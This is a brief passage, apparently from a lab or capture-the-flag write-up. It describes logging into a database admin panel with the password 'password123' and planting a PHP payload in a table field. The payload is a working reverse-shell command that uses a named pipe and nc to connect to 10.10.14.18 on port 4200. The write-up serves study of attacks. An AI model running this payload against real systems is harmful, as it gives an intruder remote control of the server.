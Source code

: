 Following the instructions, I logged in with password123 and created a new database called "rshell.php".

![image](assets/83317786-539fc980-a1fd-11ea-8d7a-1cc64b3521f5.png)

I created a new table - name: data, number of fields: 1, and clicked go.

![image](assets/83317812-a1b4cd00-a1fd-11ea-8c16-39f11e19bad9.png)

For "Field:" I used php system to execute a command that creates a reverse shell. I set the "Type:" to "TEXT" and entered "data" (can be anything), in the default value field and clicked "Create".

```
<?php system("rm -f /tmp/backpipe;mknod /tmp/backpipe p;/bin/sh 0</tmp/backpipe | nc 10.10.14.18 4200 1>/tmp/backpipe"); ?>
```
